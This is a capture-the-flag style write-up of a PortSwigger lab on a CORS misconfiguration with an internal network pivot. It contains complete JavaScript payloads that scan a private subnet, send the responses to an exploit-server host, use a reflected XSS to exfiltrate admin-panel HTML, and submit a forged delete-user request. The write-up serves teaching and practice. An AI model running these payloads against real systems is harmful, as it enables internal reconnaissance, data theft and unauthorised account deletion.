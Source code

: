 # CORS vulnerability with internal network pivot attack

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack), you'll learn: CORS vulnerability with internal network pivot attack! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★★★★★☆

## Background

This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all internal network origins.

This lab requires multiple steps to complete. To solve the lab, craft some JavaScript to locate an endpoint on the local network (`192.168.0.0/24`, port `8080`) that you can then use to identify and create a CORS-based attack to delete a user. The lab is solved when you delete user `Carlos`.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227072920.png)

**In the lab's background, it said:**

> This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all internal network origins.

**Let's go to the exploit server, and scan the local network (`192.168.0.0/24`, port `8080`):**
```html
<html>
    <head>
        <title>CORS-4</title>
    </head>
    <body>
        <script>
        var q = [], collaboratorURL = 'http://exploit-0a7f00490417a1aac052b207013a00cb.exploit-server.net/log';

        for(i=1;i<=255;i++) {
            q.push(function(url) {
                return function(wait) {
                    fetchUrl(url, wait);
                }
            }('http://192.168.0.'+i+':8080'));
        }

        for(i=1;i<=20;i++){
            if(q.length)q.shift()(i*100);
        }

        function fetchUrl(url, wait) {
            var controller = new AbortController(), signal = controller.signal;
            fetch(url, {signal}).then(r => r.text().then(text => {
                location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now();
            }))
            .catch(e => {
                if(q.length) {
                    q.shift()(wait);
                }
            });
            setTimeout(x => {
                controller.abort();
                if(q.length) {
                    q.shift()(wait);
                }
            }, wait);
        }
        </script>
    </body>
</html>
```

**Then, host it in the exploit server and deliver it to the victim:** 

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227073641.png)

**Exploit server access log:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227073715.png)

**Copy and paste that to [CyberChef](https://gchq.github.io/CyberChef/):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227073826.png)

**As you can see, in `192.168.0.28:8080`, there is an internal website:**
```html
<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>CORS vulnerability with internal network pivot attack</title>
    </head>
    <body>
[...]
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <h1>Login</h1>
                    <section>
                        <form class=login-form method=POST action=/login>
                            <input required type="hidden" name="csrf" value="GosySyayHEHiWUtqCKSznVQvBVH18gXa">
                            <label>Username</label>
                            <input required type=username name="username">
                            <label>Password</label>
                            <input required type=password name="password">
                            <button class=button type=submit> Log in </button>
                        </form>
                    </section>
                </div>
            </section>
        </div>
    </body>
</html>
```

**Looks like it's an login page in our lab:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227074756.png)

Next, we need to **find an XSS(Cross-Site Scripting) vulnerability in that login page**. If we found one, maybe we can go to the admin panel and delete user `carlos`!

**To do so, we'll again write another JavaScript:**
```html
<html>
    <head>
        <title>CORS-4</title>
    </head>
    <body>
        <script>
            function xss(url, text, vector) {
                location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
            }

            function fetchUrl(url, collaboratorURL){
                fetch(url).then(r=>r.text().then(text=>
                {
                    xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
                }
                ))
            }

            fetchUrl("http://192.168.0.28:8080", "http://exploit-0a7f00490417a1aac052b207013a00cb.exploit-server.net/log");
        </script>
    </body>
</html>
```

**Then, host it on the exploit server, deliver it to the victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227075207.png)

**Check exploit server access log:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227075253.png)

```html
[...]
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href="/">Home</a><p>|</p>
                            <a href="/admin">Admin panel</a><p>|</p>
                            <a href="/my-account?id=administrator">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <form style="margin-top: 1em" class="login-form" action="/admin/delete" method="POST">
                        <input required="" type="hidden" name="csrf" value="dyNlR2Q5cFUGqxIWTSaSfB4DIT25V2mg">
                        <label>Username</label>
                        <input required="" type="text" name="username">
                        <button class="button" type="submit">Delete user</button>
                    </form>
                </div>
            </section>
        </div>
```

As you can see, the XSS payload worked, and **the `<iframe>` tag successfully pointed to the admin panel(`/admin`).**

**Let's delete user `carlos`!**
```html
<html>
    <head>
        <title>CORS-4</title>
    </head>
    <body>
        <script>
            function xss(url, text, vector) {
                location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
            }

            function fetchUrl(url){
                fetch(url).then(r=>r.text().then(text=>
                {
                xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
                }
                ))
            }

            fetchUrl("http://192.168.0.28:8080");
        </script>
    </body>
</html>
```

**Again, host it, deliver exploit to victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227075703.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227075710.png)

We successfully deleted user `carlos`!

# What we've learned:

1. CORS vulnerability with internal network pivot attack
